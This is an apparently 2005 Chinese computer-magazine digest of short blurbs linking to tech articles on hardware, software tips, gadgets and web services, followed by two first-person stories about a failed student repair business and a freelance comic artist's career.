在大街小巷飞驰而过的各式各样的汽车中，那些名贵的“品种”如奔驰、宝马，一定能够吸引不少的眼球。今天，就让大家见识一下全球最为名贵的11款汽车，保证让你大开眼界！文章链接:http://ez.blogbus.com/logs/2005/03/1086166.html

## 麦当劳也出PC

目前，机箱改造样式非常之多，但下面这个绝对是你想不到的，因为它的造型居然是一个汉堡包！国外狂人的机箱改造的确让我们开了眼界。文章链接:http://power.zol.com.cn/2005/0401/160710.shtml

## 手机放哪儿最健康

平时你是将手机搁在上衣口袋里、裤兜里，还是挂在胸口？辐射对人体的危害早已被人们所熟知，但大家却不太注意平时接触最多的手机辐射。原来手机摆放的位置与我们的健康有着如此密切的关系。文章链接:http://health.163.com/05/0404/10/1GG56JJD00181AAR.html

## 七款最值得出手的硬盘

由于这几年来，硬盘只是在容量上的变化最大，因此，现在只要一提到硬盘，就是大容量的，其实没这个必要。选择硬盘要因需要而宜，有些朋友就喜欢大容量硬盘，而有些朋友就比较喜欢把值得收藏的东西刻录出来，剩下的东西不要也罢，毕竟DVD刻录机已经普及，因此一个小容量廉价的产品也是佳选。文章链接:http://document.pcpop.com/0/82/82771.shtml

## 小到找不着！整台电脑仅有水晶头大小

要说世界上目前最小的带有操作系统的电脑有多小？只有一个网线的水晶头那么小，你相信吗？德国Kleinhenz电子公司目前发表了他们最新集成Linux系统并带有网络功能的超小型系统Picotux，绝对震撼！文章链接:http://hard.zol.com.cn/2005/0329/159828.shtml

## 帮你免于失业的十大软件技术

能跟上关键技术的发展，是你在就业市场和未来保持优势的最佳手段。只要你掌握了下文列出的十大软件技术，那么“失业”将会从你的词典中消失！文章链接:http://www.haoo.cn/Article/2005/04/01/3928.shtml

## 谁把我的MP3变小了

我的MP3在购买时明明听商家说是512MB的，怎么连接上电脑之后却只有488MB？莫非奸商短斤缺两？究竟是怎么回 事，请从文章中找答案吧。实际上，计算误差、内部文件占用、反复读写的损耗、翻新伪劣产品都有可能造成MP3实际容量与标称不符的情况。文章链接:http://tech.qianlong.com/28/2005/04/04/71@2581155.htm

## 字典、辞典要打假

《新华字典》可以说是我们工作、学习必备的一本语文工具书，一些不法书商便见利起意，大肆盗版该字典。除此之外，《现代汉语词典》、《汉语成语小词典》等也被大量盗版。盗版字典、词典的质量是无法保证的，搞不好会贻误终生，所以一定要买正版字典、词典。在这里，可以通过比较来识别正版还是盗版。文章链接：http://www.cp.com.cn/cr/newsdetail.cfm?iCntno=1141

## 76个经典的Windows技巧

Windows的技巧到底有多少？我们曾经统计过，大概有2000多条，虽然这里只提供了76个，却应该属于精华之精华，菜鸟必备，老鸟必会！文章链接:http://www.pcworld.com.cn/features/1/2005/0326/262.shtml

## 一个IT人的建议:跳槽一定要谨慎

跳槽是一门学问，也是一种策略。跳槽并不意味着你就能够取得职业的成功，当面临跳槽时，如何顺利地完成跳槽，从而取得职业的成功呢？这篇文章中谈了一些切身体会，值得大家参考。文章链接：http://forum.tech.sina.com.cn/cgi-bin/viewone.cgi?gid=23&fid=290&itemid=23787

## 菜鸟，遇到电脑故障请先查这个！

遇到电脑故障最令人头痛，但实际上，掌握了一些基本技巧后，你就可以在几分钟内解决大多数软硬件故障。这篇文章搜集总结了35个简易修复瘫痪电脑的技巧，包括升级Windows的冲突、无法上网、修复破损Word文档及其他一些可能经常遇到的小问题。文章链接：http://www.pcworld.com.cn/features/1/2005/0101/74.shtml

## Google的梦想办公室

Google员工享有20%的自由支配时间。在私人时间，大家反而创意勃发：诞生了Gmail邮箱产品和人际网络产品Orkut；或许还有Google“功能饮料”Gulp？文章链接：http://www.enet.com.cn/enews/inforcenter/A20050411407320.html

## 要让电脑跑得欢，重点在预防

相信大多数朋友都希望自己的电脑不仅寿命长，而且还能一直保持最佳的工作状态，而这篇文章从电脑本身由里到外，再到操作系统，告诉了我们很多PC预防性维护的知识和技巧。文章链接：http://www.pcworld.com.cn/how_to_use/1/2004/1010/262.shtml

## 第十期

## 未来的iPod是什么样？

iPod真是让苹果公司赚翻了，网上已经有越来越多的人开始关注于iPod。其中不乏搞怪高手，于是帮苹果公司设计出来N多的下一代iPod外形，快去看看“长”在大拇指上的iPod、变身成手表的iPod、集成至钥匙扣上的iPod……

文件链接:http://www.enet.com.cn/edigi/inforcenter/A20050407406488_1.html

## “苹果”电脑的传奇

年龄稍长的朋友应该还记得在80年代末、90年代初，风靡一时的Apple电脑，十几年一晃而过，细想起来，也许就是Apple让你最先认识了电脑的，让我们重新再认识一下“苹果”吧……文章链接:http://hardware.mydrivers.com/pages/200504051149_96853.htm

## K8狂飙 纯64位应用

早在2003年秋天AMD就发布了他们的Athlon64系列处理器，将PC带入了64位运算时代。64位的舞台虽然已经搭建完毕，但我们却不见舞台上的演员：没有操作系统、没有应用软件、没有游戏，不过现在这一切问题都已经解决……文件链接:http://document.pcpop.com/0/84/84261.shtml

## 你的IIS6.0安全吗

由于Linux较难掌握，所以很多朋友在架设服务器时，还是首选Windows平台，不过Windows中提供WWW服务的IIS是出了名的不安全，除了要勤打补丁外，在使用时，还要注意一些设置技巧，毕竟一个小漏洞，就足以让你的服务器沦为“肉鸡”。文件链接:http://news.onlinedown.net/info/12200-1.htm

## 黑客究竟黑了谁

从一名优秀的在校大学生，到一个破坏别人计算机的黑客、最后成为了几乎被社会遗弃的人。如果你现在也和他一样或者想成为他那样，就来看看吧这篇文章吧。破坏者最终会为自己的纵欲付出代价，如果你至今仍认为网络犯罪不是犯罪，那你已经成为网络时代的“孔乙己”了。文章链接:http://hackbase.com/gest/experience/2005032710618.html

## 古怪硬件猜猜猜

大千世界，无奇不有，电脑硬件更是花样百出，今天我们就为大家搜罗了好几个和电脑硬件有关的产品，看你能不能猜出来它是用来干什么的？下面就请大家调动全身神经细胞来猜吧。^o^ 文章链接:http://it.sohu.com/20050329/n224920451.shtml

还有一些超级恶搞的USB外设也能够彻底笑翻你哦！http://www.enet.com.cn/ediy/inforcenter/A20050302394753.html

## 揭国产正版游戏的

经常会有国内的游戏开发商或者代理商“跳”出来发表一篇大骂国内盗版风气的文章，甚至怒斥国内玩家并且扬言要退出游戏开发市场。现在终于有人来为玩家出了口恶气，直击国产游戏(包括国内引进的游戏)的软肋。随意修改原版导致兼容问题、变态的加密技术使正版玩家不得不购入多套游戏才能通关、一号多卖……文章链接:http://document.pcpop.com/0/85/85370.shtml

## 英文简历轻松写

刚毕业的大学生都会为求职而奔波忙碌，在求职过程中，简历是一个非常重要的因素。规模比较大的公司都会要求面试者同时提交中英文简历，如何写好英文简历成了让大学生头痛的问题。看看这篇文章吧，让你的英文简历出类拔萃。文章链接:http://job.studa.com/2004/12-27/85621.html

## 教你玩转Outpost防火墙

Outpost一直是小编狂PK个人非常推荐的一款防火墙，优秀的界面、简单的操作、强大的插件功能……这款屡获世界大奖的防火墙究竟应该怎么用呢？请看这篇文章。

文章链接:http://news.onlinedown.net/info/12529-1.htm

## 短恶搞无罪 改编有理

网络上的各种翻唱歌曲早已经让人习以为常，可是每每听到恶搞的、改编的歌曲MTV，都会忍俊不禁地笑起来。圣斗士版本的“七里香”、视频遭遇版“江南”，最让人狂笑不止的是学校食堂版的“伤心太平洋”，真是非常有感触……想起了大学生活。

文章链接:http://www.it.com.cn/f/edu/053/15/87313.htm

## 驱动备份软件你选哪一款？

重装系统后的第一件事是什么？当然是安装驱动程序，可是每次都要拿出驱动光盘一个一个的重装也太麻烦了，于是就出现了驱动备份软件，这类软件可以将系统中的软件进行备份，并且具有驱动搜索、驱动更新、驱动还原等功能，那么如今流行的驱动程序备份软件中，你应该选择哪一款呢？

文件链接:http://publish.it168.com/2005/0415/20050415003901.shtml?cChanNel=no&cPositionCode=22_0

## 防忽悠！IT界的谎言辟谣“Top Ten”

除了在愚人节这个特殊的节日以外，我们是不是也被玩IT的给忽悠过呢？呵呵，今天我们就看到了这么一个防忽悠的辟谣帖，特地为大家转来。

文章链接:http://document.pcpop.com/0/82/82325.shtml

## Google帮你记录自己的搜索历史

最近Google提供了一项新服务的测试版——“我的搜索历史”，它能记录你在Google中进行的搜索，比如：关键词、点击查看的搜索结果等。首先进入http://www.google.com/searchhistory/login网站，如果你已经拥有Gmail邮箱，只要在“Google Account”下的“Email”输入邮箱地址（比如：123@gmail.com），在“Password”处输入Gmail邮箱密码即可。如果没有Gmail，则要点击“Create a Google Account”（创建Google账户）进行新用户注册。登录后，你在Google中的所有搜索关键词、点击过的搜索结果都会被记录下来，而且你再进入Google的首页，会发现右上角会出现相应的账户链接。而且Google的“我的搜索历史”页面还提供了日历和搜索功能，让你快速查看以前的搜索。而“Remove items”链接则可删除不需要的搜索记录。

文章链接:http://www.google.com/searchhistory/login

## 《半条命2》5年诞生全记录

CS，半条命恐怕是最流行的游戏了，半条命2更是受到了全球的密切关注，你可知道开发这样一个游戏需要付出多少艰辛吗？看了本篇文章你就会明白了。

文章链接:http://www.donews.net/yyh/archive/2005/04/07/326338.aspx

## 深入剖析显卡供电

无论CPU还是显示芯片，为了获得更高的性能必须付出相应的代价，那就是功耗。如果显卡供电不足，那么在3D渲染时功耗过大导致电源不堪重负，轻则显卡的性能受制、超频能力受限，重则死机、黑屏、断电甚至烧毁显卡和电源。要了解这些内容，必须从当今主流显卡的供电方案谈起……

文章链接:http://it.sohu.com/20050325/n224854619.shtml

## 另类搜索大集合

别以为搜索引擎只是简简单单用来搜索网页的，电话号码、邮件列表、世界地图，甚至笑话都能通过搜索引擎来找。不过在使用时请注意，这篇文章中收录的一些内容不适用于国内用户。

文章链接:http://www.it.com.cn/f/edu/0411/8/45168.htm

## 软件下载你选谁

一提到下载软件，除了BT外，我们最先想到的就是FlashGet、迅雷和影音传送带这三款软件，那么它们的速度到底有多快呢？到底谁才是宽带时期的速度之王呢？

文章链接:http://news.onlinedown.net/info/12161-1.htm

## 今天你网上翻唱了吗

这两年网上翻唱非常流行，同时也成就了一些网络翻唱歌手，比如：香香等，如果你已经拥有一付好嗓子，何不亲自试试呢？因为它实在太简单了，不信就来看看教你录歌专题吧！（心随移动爆料）

文章链接:http://music.okxr.com/musicclub/luge.asp

## 你和谁有同一个梦想

有一首歌中的歌词是“一人有一个梦想”。和你有同样的梦想的人，他们现在在哪里？到下面这个网站去看看，输入你的梦想，看看有多少人和你有同样的梦想，他们又在想些什么？

文章链接:http://www.43things.com/

## 赶快抢注微软新邮箱

近来，微软悄悄推出了@messengeruser.com的注册，看上去它像是信箱名称，其实只是用于MSN Messenger及.NET Passport的，注册用户并不会得到相应信箱。不过，这个信箱名看上去不错，而且又是微软的，谁知道它会不会在以后像Hotmail那样火爆呢？所以注册了先！

文章链接:https://register.passport.net/reg.srf?ru=http://messenger.msn.com&ns=messengeruser.com&cbid=24325&id=2&rollrs=11&id=2&sl=1

## 吐血推荐！网上英语学习资源大整理

英语学习已经成为许多人的必修课，而网络恰恰为人们提供了这方面极为丰富的资源，有一些网友已经花费了相当多的时间收集整理了大量英语学习的资源网站，正在为英语提高发愁的你还不赶快行动起来！

文章链接:http://www.donews.net/graduatepower/archive/2005/04/13/334542.aspx

## 可怕！QQ用户升一级用电60亿度

QQ提供了等级制度，也因此出现了不少为了更高的级别而长时间不关机的QQ挂机族，但是你可曾知道，QQ用户每升一级，电量就要用去60亿度，据说够宁波用一年。不信就来看看这篇报道，虽然记者计算有不太科学的地方，但确实应该引起身处电资源不富裕国家的QQ族们的重视！（木头人爆料）

文章链接:http://blog.it168.com/more.asp?name=cctv&id=648#275

## Outlook、Outlook Express应用大全

Outlook和Outlook Express都是人们经常使用的邮件客户端软件，在使用过程中可能遇到各种各样的问题，或者对某些功能并没有充分利用，而这里整理了一些这方面的内容，非常值得收藏。（心随移动爆料）

文章链接:http://searchexchange.techtarget.com.cn/searchexchange/508636278032433152/20050329/1928463.shtml?clicksrc=010141

## 无线网也能骗取用户信号卡

黑客骗取用户隐私的手段很多，可最近人们发现，连WiFi也成为了黑客们用来敛财的工具。唉，这个社会，做什么事情都要多长几个心眼呀！

文章链接：http://www.chinabyte.com/busnews/216485047711039488/20050401/1930122.shtml

## 借你一双“慧眼”：Intel盒装风扇七招辨假

目前市场上零售的Intel CPU主要有原包盒装、假盒装和散装三种类型，而假盒装已经达到连800服务电话也不一定能够保证分辨出来的地步了！要如何才能避免上当受骗呢？请看——

文章链接:http://document.pcpop.com/0/81/81831.shtml

## 邮箱大到没边儿啦

近日国外一家邮件服务商Mail2World宣布把免费邮箱容量扩容至无限大，多少GB邮箱容量对用户而言已完全失去了意义。不过免费用户发信时的附件大小限制在10MB。与众多大容量免费邮箱一样，Mail2World的免费邮箱仅仅支持Web收发E-mail。

文章链接:www.mail2world.com

## 美国计算机专业前20名学校点评

说到IT，不得不说到美国。为IT业培养了大量IT界精英的美国学校，你又了解多少呢？今天，我们就来给这些学校排个座，看看你心目中的学校排在第几吧。

文章链接:http://www.techweb.com.cn/tech/2005-02-18/2035.shtml

## 你的机器别成为别人的肉鸡

网络安全是计算机安全的重中之重，不过你知道吗对于普通计算机用户来说成为别人的肉鸡是件最危险的事情，本篇文章将告诉你一些基本的网络安全防范方法。

文章链接:http://www.donews.net/elite/archive/2005/04/08/327465.aspx

## 显存比内存还多的nVIDIA QuadroFX双显卡SLI

前段时间QuadroFX 4400上市，这款售价高达2200美元的显卡显存为512MB，如果再使用nVIDIA的SLI技术，显存立刻提升为1GB，想想看这已经比很多朋友电脑的内存还要大了，在这样一个“怪物”面前，我们平常玩的DOOM3、Half-Life 2能有多大的提升呢？

文章链接:http://www.gamepc.com/labs/view_content.asp?id=qfx4400&page=1&cookie%5Ftest=1

## 体验Longhorn的精彩

Longhorn是微软的下一代操作系统的开发代号，发布日期也一拖再拖，从2002年开始，网上也陆陆续续出现了很多泄漏版本，这些不同的版本或多或少都有些改变，这其中最受人瞩目的就是Longhorn5048，它已经内置了Avalon Desktop Windows Manager(DWM)，而且通过几个简单的修改，就可以让所有支持DirectX 9.0的显卡打开DWM，于是我们都可以提前体验Longhorn的最新技术了。

文章链接:http://hardware.mydrivers.com/pages/200505061239_42879.htm

## 你的ASP代码安全吗

动网论坛上传漏洞、惊云下载系统上传漏洞、BBSXP上传漏洞，为什么这些著名的ASP程序都出现上传漏洞？这些漏洞的本质是什么？如何编写安全的ASP上传代码？读完本文您就会有答案。

## ASP程序都会时不时地暴出惊人的漏洞？

过滤不严格、用户提交数据未检查、类型检查不严格，这三种典型的疏漏让ASP代码身处险境！如果你正在学习ASP，就来看看这篇文章，学习一下如何编写安全的ASP代码。

文章链接：http://www.safechina.net/article/showarticle.php?id=1077875295

## 免费拥有全系列iPod

如果你是一个苹果迷，一定希望收集到全系列的iPod产品，包括各种颜色的iPod、小巧的iPod Mini、细长优雅的iPod Shuffle。但一般人可能并没有如此“烧包”的能力，现在就教你免费拥有全系列的iPod产品：自制iPod纸质模型。可别小看了纸做的iPod，放在橱窗里几乎可以乱真呢。

文章链接：http://nb.zol.com.cn/2005/0331/160214.shtml

## MP3播放器的血缘关系

如果你正想购买一个MP3播放器，在挑选时一定会发现一个问题：为什么有这么多形状相似甚至一模一样的MP3产品？难道不同厂家的产品之间还有“血缘关系”？原来这些就是所谓的“公模MP3”，让我们来看看市场上现在有哪些公模MP3产品吧。

文章链接：http://digi.mop.com/1/53/74/19897.html

## 买笔记本，我该检查些什么

笔记本市场表现出了越来越平民化的价格亲和力，5000元以下的笔记本早已不鲜见，而2999元的笔记本也已问世。可能你已经渐渐松开了捂紧多时的腰包，准备购入一台笔记本成为“本本一族”了。但在购买时，我们应该注意哪些问题呢？不要以为包装完好就OK了，“验机”过程可能会发现许多你想不到的问题。

文章链接：http://publish.it168.com/2004/0603/20040603005801.shtml

## 电脑到底需要多强的显卡

快、快、更快！显卡大厂推出新品的速度越来越快。与此同时，3D性能也更是往上直推，显卡不仅支持更多特色，同时也搭配更多、更快的显存。当然，价格也一起拉高，甚至能够比得上一台入门的电脑了！于是越来越多的用户开始发问：电脑到底需要多强的显卡呢？著名的硬件网站Tom硬件指南为你详细解答这个问题，还为不同用户进行了显卡推荐。

文章链接：http://www.thg.com.tw/article_0000899.html

## 半机器人:将芯片植入人体

常常在科幻电影中看到，未来人类身体中都植入了唯一的识别芯片，这样你不再需要钥匙，只要靠近自己的汽车，它就会识别出你的芯片并自动开门。一个网名叫ishmell的疯狂男子将一块12x2mm的芯片植入了自己的左手，并计划完成自动开车门、登录电脑等工作。(特别提示:危险动作，请勿模仿！)

文章链接：http://tech.qq.com/a/20050420/000083.htm

## 用《分裂细胞3:混沌理论》测测你的显卡

用游戏测试电脑已经不是什么新闻了，但目前能够真正全面应用最新3D显卡所有图形特效的3D游戏并不多，如果你自认为显卡足够强，强烈推荐试试《分裂细胞3:混沌理论》。对于那些不会有了游戏，而又不会测试的朋友也不要紧，这篇文章已经详细介绍了测试方法，相信一定会对你有所帮助。

文章链接：http://hardware.mydrivers.com/pages/200504271126_89238.htm

## 节电！我要盗用电信的电！

最新科学研究成果已经成功把电话线中的电能利用起来，这项由Sandman公司的Emil Drizzlenik博士研究的项目，让我们通过专门接口设备，就能使用电话线中流动的微弱电能。只要在家中随便拉一根电话线，即可方便、安全的使用了，又没有触电危险，更主要的是现在电话里面的电是免费的！不信？那就来看看现成的产品吧！(报料人：木头人)

文章链接：http://mobile.zol.com.cn/2005/0508/168623.shtml

## QQ隐患:400秒远程破解QQ密码(视频)

一位高手被公司要求研究OICQ的通讯协议，在对OICQ认证的分析过程中，发现了一个严重的安全脆弱性隐患，导致黑客可以简单地通过网络数据抓包，破解整个局域网内的QQ密码。更可怕的是，密码破解时间只有不超过400秒！

文章链接：http://tech.sina.com.cn/i/2005-05-12/0941605319.shtml

## 男生看过来！如何两步把T恤叠得最整齐

夏天快到了，T恤成为了很多男生的当家衣服，但是常常看到路上不少人的T恤皱巴巴的，这其中的最大原因就是在收入衣柜时没有叠好，而这段录像可以教你如何两步就能把T恤叠得非常整齐，男生们快点看过来吧！(报料人：JoyChan)

文章链接：http://www.howtofoldashirt.net/

## 真假难辨，IE7.0 Alpha已面世？

近日，外国多个微软资讯论坛都放出了IE7.0最新截图，这可谓是微软回应Mozilla Firefox最新发布路线的最佳行动。不过，Internet Explorer 7真的已进入alpha阶段吗？虽然目前还不能确认截图的真假(最怕就是经过PS处理过)，但新产品泄露之事常有，大家应以平常心对待之。

文章链接：http://www.pconline.com.cn/pcsoftnews/dongtai/0505/615293.html

## 款款都是待机王

出门在外，手机突然没电是件非常棘手的事，如何让手机节电也成了每个手机用户需要了解的知识了，这篇文章会为你介绍8种方法，让你的手机通话时间延长30%~50%。

文章链接：http://www.pcpop.com/doc/0/85/85316.shtml

## 异形吃掉了一台PC

打造一台不同凡响的电脑，不但要从配置入手，还要给电脑一个外形奇特的包装。这台异形外形的电脑就是一位发烧友完全手工打造。精制的做工让制作者荣获了电脑改造的大奖！

文章链接：http://bbs.icooler.net/dispbbs.asp?boardID=79&ID=4795

## 天堂的丁香花

原先在听唐磊的《丁香花》时，就感觉这首歌充满了哀伤情绪。原来它背后确实有一个真实的凄美动人故事，当《丁香花》红遍网络之时，唐磊已经来不及将这首歌送给她了，因为她已经离开了人世间，在天堂中的她是否正在聆听这首写给她的歌呢？

文章链接：http://www.dooto.com/a/2005-03-26/20050326114623.html

## 下一代游戏机大预测

我们从目前市场上流行的这一代家用游戏机上，可以看到电子游戏作为羽翼丰满的流行文化媒体的时代即将到来。《光晕2》高达1.25亿美元的首日销售额令《蜘蛛人2》1.15亿美元的第一周票房总数黯然失色。追捧一张热门游戏的原声CD就跟追一张电影大片的原声CD一样重要。而你也可以看到，我们最喜爱的这种娱乐方式正在引起政界人士的注意，从此电子游戏即将进入黄金时代。

文章链接：http://www.pcpop.com/doc/0/87/87030.shtml

文章链接：http://www.gamespot.com.cn/gamespot/features/story/0,2000000053,39249420-1,00.htm

## 一名黑客的日记

没有令人头昏的代码，一个黑客的日记看起来像是一篇网络小说，虽然长了一点，看起来也是不错。

文章链接：http://blog.codelphi.com/yangyang/archive/2004/07/28/18049.aspx

## G5改用AMD处理器

当然，这还不是事实。这里介绍的是一位发烧友将一台Athlon 64电脑改造到一台Apple G5的机箱内，采用低噪音水冷散热，整台电脑做工非常精细。

文章链接：http://review.gzeasy.com/howto/2005-05-01/howto_1596.html

## 夏日来临，水冷风冷大比拼

随着炎炎夏日来临，电脑散热又成为个重点话题。水冷和风冷到底谁更有优势呢？恐怕也不方便直接比较。这里我们选取了水冷散热器和风冷散热器的文章各一篇，让大家自己做出选择。

文章链接：http://www.icooler.net/lab/content.asp?code=849

http://www.icooler.net/lab/content.asp?code=860

## X700 GDDR3火拼6600 GDDR3

Radeon X700产品在近期颇为火，不用千元的售价让它在论坛中产生热烈的讨论，毫无疑问千元之内的性价比是十分突出的。面对这样强悍的对手，GeForce6600也连续降价，摆开与X700决一死战的架势，两款中端显卡谁更强呢？请看本文。

文章链接：http://review.gzeasy.com/graphics/2005-04-30/graphics_1595.html

## nForce4 SLI Intel版对决AMD版

自从nVIDIA发布支持Pentium 4处理器和SLI显卡并行处理功能的nForce4 SLI Intel芯片组后，Intel平台终于也能与早已支持SLI功能的AMD平台在同样高度比拼性能了。那么在都用上SLI后，Intel与AMD谁强呢？请看测试。

文章链接：http://hardware.mydrivers.com/pages/200505161503_42616.htm

## 在线看E3大展

E3，全称The Electronic Entertainment Expo，全球第一大电子娱乐展会。十年，E3用他非凡魅力吸引了全球无数疯狂的游戏迷。现在我们不能到场看E3，那么网上在线看也不错。

文章链接：http://topic.pcpop.com/game/e3/e3.html

## 你身边人和你有什么梦想

我们曾经介绍过http://www.43things.com/这个网站，在里面可以找到志同道合的梦想者。遗憾的是这个网站是英文版，现在终于有热心人做出了他的中文版，结构和英文版一样，还不快来看看！

文章链接：http://www.aimi.cn/

## 硬盘+鼠标=万能钥匙？

不知你是否有过忘带钥匙，而被困门外的经历。想当年，小编我是有过这么一次，当时恨不得马上能够有一把间谍电影中的“万能钥匙”……

真是想不到，居然“硬盘+鼠标”居然可以帮你开锁，只要你动手能力强，就能DIY出一个“万能钥匙”。虽然这把“万能钥匙”个头过大，还要接电使用，但这新奇的东西还是挺有意思的，你说呢？

文章链接：http://www.pcpop.com/doc/0/87/87030.shtml

## 学生哥创业难，难于上青天

## 业务难做想尽招数

由于我们四个人都在电脑城里面混过，给其他公司打工的同时我们手中也掌握了一些客户的联系方式。打开门做生意的第一天，我们就分头给自己的熟客们打电话，告诉他们自己开电脑维修公司了，请他们多多关照……当然，我们承诺的价格是很低的，但服务质量相比专业的大牌公司还要不折不扣。

可是，愿望总是好的，实施起来才知道是多么困难。那些客户都习惯了在电脑城的电脑公司进行电脑维修。也许，在他们的观念中，只有那种大环境、大牌公司的电脑维修才过硬。而像我们这样的小公司根本就不过眼。的确，IT界永远只有第一，没有第二，何况我们连第二都远远不够。

既然如此，我们四个合伙人聚在一起想出路想办法。经过一阵讨论，大家都认为是广告宣传太少了，很多潜在的消费者并不知道我们这家公司存在。于是，加强宣传和市场推广就成了当务之急。但是，我们可供使用的资金是那么的少，怎么办呢？

我们决定去散发广告传单，直接用Word打好宣传文稿，然后以5分钱一张的价格让周边的广告公司印刷了500张广告单，并制作了500张我们维修公司的名片。而后，我们四人分布在电脑城外向过客们兜里塞我们的宣传资料。那种受人白眼和被保安赶的滋味，真让才投入社会的我有些受不了。

不过，我们还是把该发的都发完了，然后，我们在租的房间里等待业务上门。头一个月，由于有一些老客户来光临，我们一共接到了22笔单子，挣了1000多块钱。虽然连我们四个人的薪金都开不了，但我们开心，以为公司上路了，会慢慢走上轨道好起来。可是，第二个月，我们只接到了15笔单子，挣了720块钱，连房租都不够。

而且，事后我们分析这15笔单子，发现大多是周围邻居。这是个不好的结果，因为这说明外面的人仍然根本不知道有我们这家电脑维修公司。

## 危机出现导致散伙

本来，我们还可以坚持更久，但后来一些意想不到的情况加速了公司的“死亡”。业务清淡的时候一天只有两三个电话，这样的情况越来越多，平时只能靠玩游戏、靠义气地打牌来混日子。后来，我们意识不能这样，于是开始搞上门维修、8小时响应服务概念。这一搞，虽然麻烦了许多，但接的单子慢慢多了起来。可是，潜在的风险也随之而来。

有天，我上门给一客户维修主机，不小心把客户递给我的水洒在了主板上。而这时，主板已经加电开始工作了……客户生气的样子可想而知，他要求我们公司赔偿。回到公司，我懊恼地把情况一说，大伙脸色都变了。

当时，我们公司账面上总共也只有三千多块钱，而客户的主板都要600元，CPU也要500多元，这样一份公司就没有钱了。但是，凡事都得有个解决办法。几经磋商，决定公司出一半，我自己摊另外一半。这件事似乎就这样过去了。

但这件事让每个人都提心吊胆，万一自己以后碰到这样的事情怎么办！于是大家决定讨论讨论，这时候，有人提出：以后谁闯祸，谁就负全责，公司不负责。这样的建议虽然不是针对我，但也让我心里很不好受。同样，其他人心里也开始想东想西了。

这之后，终于有一个合伙人把我们电脑维修公司有没有存在的必要这个疑问提了出来。如果说有必要，那么为什么我们坚持了三个多月，连本都保不了。是不是消费者还不到电脑城的大牌公司去维修，或者找周围亲朋好友中懂电脑的朋友上门来修，更或者干脆自己DIY动手修理……这个调查让我们四个人好久都说不出话来。

到最后，我们四个人算了一下台面的账，平分了剩下的钱，然后出去吃了顿分手宴。公司就此散了伙，所幸大家还是朋友。后来，其中的二人回到了电脑公司，一人通过关系去了医院当网管。而我，则选择用笔记录下这次失败的电脑维修创业史来警醒后人，尤其是学生们！

编辑点评：在创业开始，没有进行深入的市场调查，没有详细的发展计划书，甚至连投入产出都没有进行过估算，就贸然投入到竞争惨烈的市场中是不明智的。同时，既然是与人合作，那么分清权责和利益也是必要的，这些重要细节文中的主人公似乎都没有概念。

编辑点评：其实电脑维修还是有市场的，但文中的主人公为什么会失败呢？经过思考，会不会是主人公选择创业的起点低了呢？或者是他的人生经历和社会经历根本不够，人脉资源也没有积累到一定的量，就盲目上马。这种激情与冲动的动力是好的，但刚出校园的学子们，在创业时一定要稳重，要多方面考虑，把自主创业的方方面面考虑周全才行。

（重庆 罗彬）

## 漫画人生的自由人

## 自由的漫画 自由的职业

我从小就喜爱绘画，长大以后选择的专业也是美术。小时候淘气，在课堂上不爱听课，就在书本上画这画那的。时间一长，对漫画也就很自然地上手了。后来，终于慢慢发展到了以漫画为职业的道路上来。由于我个人不习惯太多条条框框约束，所以选择了自由职业作为职业模式。到目前为止，我从事漫画这个职业已经有两年多了。

## 风格 自由漫画人的灵魂

在从事漫画工作前，我在一家日资企业做过手机软件界面的设计。这段经历对我后来的漫画创作起到了很好的基本技能训练的作用。因为平面设计、平面构成这些技术，在漫画、插图绘制和封面设计中都有很大的用处。而且这个过程也让我更多地了解到电脑技术对于美术创作的神奇作用。对于漫画创作，我觉得风格最重要。插画业内的一个共识，要做一个职业插画师，需要掌握至少6种以上的绘画风格。职业漫画人不必这么多，但也需要有两三种风格熟练掌握。最初，我也是到处模仿别人的画风。刚开始“符号”是我提出的一个概念，其实也就是“漫画语言”。要学习掌握丰富多彩的漫画风格，并从中找到、总结出一种自己最擅长的路线。很多资深的漫画家，在回顾自己的技法历程时都是如此这般的感触。

## 漫画创作的心得

初做漫画时，我也并不很了解那时国内漫画的整体局势和趋势。实际上，原创动漫市场的火暴，也就是在最近一两年才迅速发展起来的。我入行在这个“火”之前，因此亲身感受到了发展的历程。最近几年，其他...

和美术相关行业的就业难度加大，也极大地促进增加了涌入此行业的人群。目前，随着动漫产业链的发展，漫画从业者的定位也有很多种。一种是在漫画卡通公司工作的漫画画工，具体工作一般分为主笔和后期描线上色；第二种是自由漫画人，这类人综合职业技能要求比较高，不仅要能自由创作作品，还要开拓投稿途径，此外，除了绘画还要具有主体选题和脚本策划能力。

## 小回忆

## 第一笔收入

万事开头难，由于做漫画的时期比较早，并不太了解业内行情与风向，在创作怎样的题材、画风上，都有些不确定。终于有一天国内知名的一线刊物《爱人》杂志的编辑，来电话通知我所投的一篇漫画稿子被采用了，但由于是黑白版面，所以需要将彩色漫画修改为黑白版本。这一消息，无疑给了我很大信心。这第一次的稿费标准也记得很清楚，一篇四格100元。

之后，随着业务的不断拓展，所做的价格范围也大大扩大了。有业务才有主动性，当自己个人精力已经应付不过来时，就可以从最低价的项目开始，一一筛选，保留性价比比较好的工作项目。

作为职业漫画人，专业技术要求是很重要的。一方面是美术基本功，另一方面就是制作技术的熟练掌握。目前做漫画常用的软件有以下几种：ComicStudio/ComicWorks、Photoshop、Painter和Flash等。可以说，通常的图形绘制软件都能用来绘制漫画，但比较而言，专业的漫画软件(如前面介绍的ComicStudio/ComicWorks)有更大优势。例如，这些软件能更好地支持数字手绘板，使手绘手感更流畅，还可以自动圆滑笔触路径。

至于用于漫画创作的硬件，个人觉得目前主流配置的电脑就足够了。不过注意内存需要大一些。因为一些大分辨率作品(如300dpi、600dpi)的绘制，若没有大内存就会奇慢；而且用数字手绘板手绘时会产生明显的延迟。使用Painter、Photoshop这样的软件绘制尤其明显，不充足的内存使得数字手绘举步维艰。最后，专业的数字手绘板是漫画人士的得力助手，目前比较高端的Wacom品牌的板子，便宜的已经只需要450元，完全可以胜任日常的工作。

## 漫画投稿的心得

职业漫画人的生存，自然是靠画漫画了。但画出来卖不出去，就意味着没有收入。那么，哪里会付费购买漫画呢？一般有以下几种：1.杂志报刊；2.出版社书籍；3.少数电视媒体；4.广告公司；5.少数网站。

